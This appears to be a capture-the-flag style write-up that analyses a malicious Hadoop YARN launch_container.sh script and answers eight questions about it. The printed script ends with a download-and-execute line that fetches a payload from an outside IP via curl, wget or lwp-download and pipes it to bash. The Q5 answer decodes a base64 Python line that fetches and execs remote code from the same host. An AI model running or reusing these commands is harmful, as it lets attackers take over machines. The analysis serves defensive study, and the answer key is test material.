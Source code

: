 > # Bash Script

## Summary
- [Summary](#summary)
  - [Q1. What is the path set to the standard output log file?](#q1-what-is-the-path-set-to-the-standard-output-log-file)
  - [Q2. Which environment variable specifies the Java home directory?](#q2-which-environment-variable-specifies-the-java-home-directory)
  - [Q3. What is the value of the “NM\_HTTP\_PORT” environment variable?](#q3-what-is-the-value-of-the-nm_http_port-environment-variable)
  - [Q4. What directory is set as the “LOCAL\_DIRS” environment variable?](#q4-what-directory-is-set-as-the-local_dirs-environment-variable)
  - [Q5. The script executes a line at the end of it. What is it?](#q5-the-script-executes-a-line-at-the-end-of-it-what-is-it)
  - [Q6. Which command is used to create a copy of the launch script?](#q6-which-command-is-used-to-create-a-copy-of-the-launch-script)
  - [Q7. What command is executed to determine the directory contents?](#q7-what-command-is-executed-to-determine-the-directory-contents)
  - [Q8. What IP address is used for downloading a script from the remote server?](#q8-what-ip-address-is-used-for-downloading-a-script-from-the-remote-server)

### Q1. What is the path set to the standard output log file?
```bash
#!/bin/bash

set -o pipefail -e
export PRELAUNCH_OUT="/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/prelaunch.out"
exec >"${PRELAUNCH_OUT}"
export PRELAUNCH_ERR="/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/prelaunch.err"
exec 2>"${PRELAUNCH_ERR}"
echo "Setting up env variables"
export JAVA_HOME=${JAVA_HOME:-"/usr/lib/jvm/jre-1.8.0-openjdk-1.8.0.275.b01-1.el8_3.x86_64"}
export HADOOP_COMMON_HOME=${HADOOP_COMMON_HOME:-"/root/apps/hadoop-3.2.2"}
export HADOOP_HDFS_HOME=${HADOOP_HDFS_HOME:-"/root/apps/hadoop-3.2.2"}
export HADOOP_CONF_DIR=${HADOOP_CONF_DIR:-"/root/apps/hadoop-3.2.2/etc/hadoop"}
export HADOOP_YARN_HOME=${HADOOP_YARN_HOME:-"/root/apps/hadoop-3.2.2"}
export HADOOP_HOME=${HADOOP_HOME:-"/root/apps/hadoop-3.2.2"}
export PATH=${PATH:-"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin"}
export LANG=${LANG:-"en_US.utf8"}
export HADOOP_TOKEN_FILE_LOCATION="/root/apps/hadoopdata/nm-local-dir/usercache/dr.who/appcache/application_1617763119642_4002/container_1617763119642_4002_01_000001/container_tokens"
export CONTAINER_ID="container_1617763119642_4002_01_000001"
export NM_PORT="44043"
export NM_HOST="hadoop002"
export NM_HTTP_PORT="8042"
export LOCAL_DIRS="/root/apps/hadoopdata/nm-local-dir/usercache/dr.who/appcache/application_1617763119642_4002"
export LOCAL_USER_DIRS="/root/apps/hadoopdata/nm-local-dir/usercache/dr.who/"
export LOG_DIRS="/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001"
export USER="dr.who"
export LOGNAME="dr.who"
export HOME="/home/"
export PWD="/root/apps/hadoopdata/nm-local-dir/usercache/dr.who/appcache/application_1617763119642_4002/container_1617763119642_4002_01_000001"
export LOCALIZATION_COUNTERS="0,0,0,0,-5735020920"
export JVM_PID="$$"
export MALLOC_ARENA_MAX="4"
export NM_AUX_SERVICE_mapreduce_shuffle="AAA0+gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA="
export APPLICATION_WEB_PROXY_BASE="/proxy/application_1617763119642_4002"
export APP_SUBMIT_TIME_ENV="1623086508184"
echo "Setting up job resources"
echo "Copying debugging information"
# Creating copy of launch script
cp "launch_container.sh" "/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/launch_container.sh"
chmod 640 "/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/launch_container.sh"
# Determining directory contents
echo "ls -l:" 1>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
ls -l 1>>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
echo "find -L . -maxdepth 5 -ls:" 1>>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
find -L . -maxdepth 5 -ls 1>>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
echo "broken symlinks(find -L . -maxdepth 5 -type l -ls):" 1>>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
find -L . -maxdepth 5 -type l -ls 1>>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
echo "Launching container"
exec /bin/bash -c "(curl -s http://209.141.40.190/xms || wget -q -O - http://209.141.40.190/xms || lwp-download http://209.141.40.190/xms /tmp/xms) | bash -sh; bash /tmp/xms; rm -rf /tmp/xms; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDkuMTQxLjQwLjE5MC9kLnB5IikucmVhZCgpKSc= | base64 -d | bash -"
```

Var `PRELAUNCH`.<br>
**Answer:** /root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/prelaunch.out

### Q2. Which environment variable specifies the Java home directory?
The default Java home directory environment variable is `JAVA_HOME`.<br>
**Answer:** JAVA_HOME

### Q3. What is the value of the “NM_HTTP_PORT” environment variable?
**Answer:** 8042

### Q4. What directory is set as the “LOCAL_DIRS” environment variable?
**Answer:** /root/apps/hadoopdata/nm-local-dir/usercache/dr.who/appcache/application_1617763119642_4002

### Q5. The script executes a line at the end of it. What is it?
Decode the base64 string `cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDkuMTQxLjQwLjE5MC9kLnB5IikucmVhZCgpKSc=` to get the answer.<br>
**Answer:** python -c 'import urllib;exec(urllib.urlopen("http://209.141.40.190/d.py").read())'

### Q6. Which command is used to create a copy of the launch script?
The line `cp "launch_container.sh" "/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/launch_container.sh"` is used to copy the script to another folder.<br>
**Answer:** cp

### Q7. What command is executed to determine the directory contents?
**Answer:** ls -l

### Q8. What IP address is used for downloading a script from the remote server?
The IP from the above python script.<br>
**Answer:** 209.141.40.190
